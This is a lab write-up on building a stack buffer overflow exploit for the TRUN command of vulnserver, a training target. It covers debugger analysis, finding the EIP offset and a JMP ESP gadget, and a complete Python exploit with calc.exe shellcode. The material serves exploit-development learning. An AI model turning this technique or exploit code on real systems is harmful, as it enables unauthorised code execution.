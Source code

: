 ## <ins>TRUN</ins>

Instead of fuzzing the TRUN command (like most writeups do) I will utilise a combination of static and dynamic analysis in order to build a working exploit.

For now, stack protections are disabled and the only challenge is to gain code execution.

When executing the vulnserver application we are greeted with some text which we can also find when opening the application in IDA and following the first few code blocks:

![e281afc55e05b7993d54a9f2a063446f.png](:../../../C\)%20Images/ed6dfdc7e4fa46de8c2f477f0ddccb9e.png)

Using tcpview from sysinternals showed that the application is listening on port 9999 TCP:

![d2a8996546db9ceee1b0800c610c62b9.png](:../../../C\)%20Images/576bf9d55aa4459cb66eda24f821bf1c.png)

I wrote a small python script to send some gibberish to the application and follow the execution flow in IDA and WinDbg:

```Python
#!/usr/bin/python3

import socket, sys
from struct import pack

ip = sys.argv[1]
port = 9999		

prefix = b''
buffer = b'w00tw00t'

payload = prefix + buffer 

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(5)
        s.connect((ip, port))
        print('[*] Sending payload')
        s.send(payload)
        s.recv(1024)
except Exception as e:
    print(e)
    sys.exit(0)
```

As the application is using TCP, a breakpoint can be set at `WS2_32!recv`.

After executing the python script, the breakpoint gets hit and the process gets interruped at `WS2_32!recv`:

![3385f2f4b8d4f053409c2822e1c31a98.png](:../../../C\)%20Images/475c344952004eefb23ea8093f15685b.png)

Using `pt` and `p` it is possible to step out of the receive function, back into the caller function.

Following that address in IDA (`00401958`) it is possible to get a broad overview of what happens to the input received.

Various call to `_strncmp` are made comparing the first few characters of the buffer with some static strings:

![539068a3d142676a59cc83db879379b4.png](:../../../C\)%20Images/f79e0906a224488d80f6cb3939bbe384.png)

This section is targeting the TRUN command, so the following changes were made to the python script:

```Python
[...]

prefix = b'TRUN '
buffer = b'A' * 4096

payload = prefix + buffer 

[...]
```

After executing the new script and following the execution flow to the string compare with `TRUN` the jump is not taken, meaning the comparison returned 0,

vulnserver is allocating a new memory region using `_malloc` and then initialising it using `_memset`, afterwards a byte comparison at a specific offset is made. If the byte at that specific offset contains a dot (.) a jump is made to a basic block containing a call to `_strncpy` which might be exploitable.

![97c852f58475648140d9de9e55076dfa.png](:../../../C\)%20Images/91d168f04192486bab5e4f91b0b15f73.png)

In order to obtain that specific offset in the buffer, the A's were replaced with a unique string pattern created using msf-pattern_create:
`msf-pattern_create -l 4096`

```Python
[...]

prefix = b'TRUN '
buffer = b'Aa0Aa1Aa2Aa3A[...]3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4F'

payload = prefix + buffer 

[...]
```

A breakpoint was set at the comparison with `2Eh` and the script was executed.
Dumping the bytes EAX points to reveals that the comparison is starting at the very beginning of the buffer (prefix excluded):

![ff911a7394932f5cec8495af9ea93f92.png](:../../../C\)%20Images/21c5bcf08ef64b6fbbab886921b9d54f.png)

If the comparison fails (there is no dot at that offset), the offset will be increased and the next byte gets checked. This means in order to perform a jump to the basic block containing a `strncpy` the only requirement the buffer has to meet is containing a dot somewhere.

Letting the application run using `g` leads to an access violation where EIP is storing `43396f43`.

This value is equivalent to offset 2007 in the unique pattern string.

The following modifications to the python script were made in order to calculate the available buffer space:

```Python
prefix = b'TRUN '
buffer = b'.' * 2007
eip = pack('<L', 0x42424242)   
junk = b'C' * 1024

payload = prefix + buffer + eip + junk
```

After EIP gets overwriten with 0x42424242 it is possible to dump the stack and check the last address containing 0x43434343 (CCCC). Then this address gets subtracted from the address stored in ESP:

![a306bd38d875d67017fbf683b6f4fbd8.png](:../../../C\)%20Images/7152fc99e6d94815bca025e0a56cf161.png)

Following this step someone would usually check for badchars (besides 0x00) but as there aren't any in the TRUN command, this step will be skipped here.

As the base address of the vulnserver binary contains a NULL-byte, it cannot be used to look for gadgets.

Instead essfunc.dll can be used, as this module gets loaded at `62500000` and does not have ASLR enabled (which can be checked using narly)
![9cb873592f6c13c4fcdae41f78d06ec5.png](:../../../C\)%20Images/bff263daa0fc47e3a5d04ff30bb6a098.png)

Knowing this, essfunc can be searched for a `JMP ESP` or `CALL ESP` instruction using the WinDbg search function:

![4baade0e651a260191c045a5726a1772.png](:../../../C\)%20Images/3edc289a45494e92a598efecb74e4f09.png)

At this stage, it is already possible to put everything together and craft a working exploit.

```Python
[...]

prefix = b'TRUN '
buffer = b'.' * 2007
eip = pack('<L', 0x625011af)   

nops = b'\x90' * 16

# msfvenom -p windows/exec cmd=calc.exe -b "\x00" EXITFUNC=thread -f py -v shellcode
shellcode =  b""
shellcode += b"\xda\xce\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x31"
shellcode += b"\xba\x99\xf4\x2d\xd4\x31\x50\x18\x83\xc0\x04"
shellcode += b"\x03\x50\x8d\x16\xd8\x28\x45\x54\x23\xd1\x95"
shellcode += b"\x39\xad\x34\xa4\x79\xc9\x3d\x96\x49\x99\x10"
shellcode += b"\x1a\x21\xcf\x80\xa9\x47\xd8\xa7\x1a\xed\x3e"
shellcode += b"\x89\x9b\x5e\x02\x88\x1f\x9d\x57\x6a\x1e\x6e"
shellcode += b"\xaa\x6b\x67\x93\x47\x39\x30\xdf\xfa\xae\x35"
shellcode += b"\x95\xc6\x45\x05\x3b\x4f\xb9\xdd\x3a\x7e\x6c"
shellcode += b"\x56\x65\xa0\x8e\xbb\x1d\xe9\x88\xd8\x18\xa3"
shellcode += b"\x23\x2a\xd6\x32\xe2\x63\x17\x98\xcb\x4c\xea"
shellcode += b"\xe0\x0c\x6a\x15\x97\x64\x89\xa8\xa0\xb2\xf0"
shellcode += b"\x76\x24\x21\x52\xfc\x9e\x8d\x63\xd1\x79\x45"
shellcode += b"\x6f\x9e\x0e\x01\x73\x21\xc2\x39\x8f\xaa\xe5"
shellcode += b"\xed\x06\xe8\xc1\x29\x43\xaa\x68\x6b\x29\x1d"
shellcode += b"\x94\x6b\x92\xc2\x30\xe7\x3e\x16\x49\xaa\x54"
shellcode += b"\xe9\xdf\xd0\x1a\xe9\xdf\xda\x0a\x82\xee\x51"
shellcode += b"\xc5\xd5\xee\xb3\xa2\x3a\x0d\x16\xde\xd2\x88"
shellcode += b"\xf3\x63\xbf\x2a\x2e\xa7\xc6\xa8\xdb\x57\x3d"
shellcode += b"\xb0\xa9\x52\x79\x76\x41\x2e\x12\x13\x65\x9d"
shellcode += b"\x13\x36\x06\x40\x80\xda\xe7\xe7\x20\x78\xf8"

payload = prefix + buffer + eip + nops + shellcode

[...]
```

As we specified one bad character, an encoder was used, meaning it is mandatory to add a NOP-slide before the actual shellcode, so that the decoder works without breaking the shellcode.

